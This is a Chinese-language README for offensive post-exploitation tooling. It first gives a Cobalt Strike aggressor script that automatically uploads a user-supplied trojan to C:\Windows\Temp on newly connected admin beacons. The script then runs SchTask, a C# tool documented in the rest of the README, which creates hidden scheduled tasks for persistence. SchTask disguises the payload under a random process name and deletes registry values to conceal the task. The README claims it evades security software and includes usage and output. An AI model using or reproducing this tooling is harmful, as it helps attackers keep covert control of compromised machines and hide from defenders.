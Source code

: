 # 简单加个cobalt strike插件



简单加个cobalt strike插件，上线机器自动执行SchTask，麻麻再也不用担心手速不够没法维权了。

上线机器判断是否管理员权限，然后上传目录下的logon.exe到C:\\Windows\\Temp\\，bexecute_assembly参数执行SchTask。

```
# set up the Initial check
on beacon_initial {
  if (-isadmin $1) {
    bls($1, "C:\\Windows\\Temp\\", &callback);
  }
}

sub callback {
      $flag = "logon.exe";
      if ($flag !isin $3){
        bcd($1, "C:\\Windows\\Temp\\");
        bupload($1, script_resource("logon.exe"));
        bexecute_assembly($1, script_resource("SchTask_donet_v2.exe"), "C:\\Windows\\Temp\\logon.exe 23");
        bexecute_assembly($1, script_resource("SchTask_donet_v4.exe"), "C:\\Windows\\Temp\\logon.exe 23");
      }
    }
```

**注：服务器donet版本，所以同时执行了v2和v4的SchTask，替换CS_InitSchTask目录下的logon.exe为自己的马，cobalt strike中Load InitSchTask.cna插件，或`./agscript [host] [port] [user] [password] [/path/to/script.cna]`使用。**

PS：文件同一个目录，例如：

![image-20211207210416939](README/image-20211207210416939.png)







========================================假装我是分割线===================================================





![logo](./imgs/logo.png)

# SchTask

| 类别 | 说明 |
| ---- | --- |
| 作者 | [AnonySec](https://github.com/An0nysec) |
| 团队 | [0x727](https://github.com/0x727) 未来一段时间将陆续开源工具 |
| 定位 | 权限维持，内存加载 |
| 语言 | C# |
| 功能 | 创建隐藏的计划任务，进行权限维持 |

## 什么是 SchTask ?

利用 Windows API，工具化创建隐藏的计划任务，同时绕过安全软件的阻断，达到持久控制。

## 实现原理 ?

### Steps

1. 选择主机随机进程名作为计划任务程序文件名
2. 将计划任务程序文件复制到 `%AppData%\Microsoft\Windows\Themes\` 中
3. 创建的计划任务名取同一随机进程名
4. 计划任务触发器以分钟为单位，无限期持续
5. 更改 Index、删除 SD 的键值，隐藏计划任务对应的 XML 文件
6. ~~删除已添加的计划任务~~

### Articles

更多技术细节，请查看  [Windows计划任务的进阶](https://payloads.cn/2021/0805/advanced-windows-scheduled-tasks.html)

## 开始体验

### Git下载安装

```bash
$ git clone https://github.com/0x727/SchTask_0x727.git
```

> 注：直接下载 [Release](https://github.com/0x727/SchTask_0x727/releases/) 版本快速使用，已经将 `Microsoft.Win32.TaskScheduler.dll` 打包到 SchTask.exe 中。

## 使用方法

### SchTask.exe   (.NET Framework 2.0)

```
C:\>SchTask.exe
  ___       _____ ____ _____
 / _ \__  _|___  |___ \___  |
| | | \ \/ /  / /  __)|  / /
| |_| |>  <  / /  / __/ / /     https://github.com/0x727
 \___//_/\_\/_/  |_____/_/      Author: AnonySec

Usage: SchTask.exe <File Path> <Minutes>
   Eg: SchTask.exe C:\Windows\System32\cmd.exe 10

C:\>SchTask.exe C:\Windows\System32\cmd.exe 1
  ___       _____ ____ _____
 / _ \__  _|___  |___ \___  |
| | | \ \/ /  / /  __)|  / /
| |_| |>  <  / /  / __/ / /     https://github.com/0x727
 \___//_/\_\/_/  |_____/_/      Author: AnonySec

[*] Copy File location:
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Themes\SearchApp.exe
[*] Hidden task xml file:
C:\Windows\System32\Tasks\Microsoft\Windows\UPnP\SearchApp
[*] RegistryKey location:
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft\Windows\UPnP\SearchApp

[+] Successfully add scheduled task !
```

### 效果图

![image-20210127170232740](./imgs/SchTask.gif)

## 为 SchTask 做贡献

SchTask 是一个免费且开源的项目，我们欢迎任何人为其开发和进步贡献力量。

- 在使用过程中出现任何问题，可以通过 issues 来反馈。
- Bug 的修复可以直接提交 Pull Request 到 dev 分支。
- 如果是增加新的功能特性，请先创建一个 issue 并做简单描述以及大致的实现方法，提议被采纳后，就可以创建一个实现新特性的 Pull Request。
- 欢迎对说明文档做出改善，帮助更多的人使用 SchTask，特别是英文文档。
- 贡献代码请提交 PR 至 dev 分支，master 分支仅用于发布稳定可用版本。
- 如果你有任何其他方面的问题或合作，欢迎发送邮件至 0x727Team@gmail.com 。

> 提醒：和项目相关的问题最好在 issues 中反馈，这样方便其他有类似问题的人可以快速查找解决方法，并且也避免了我们重复回答一些问题。
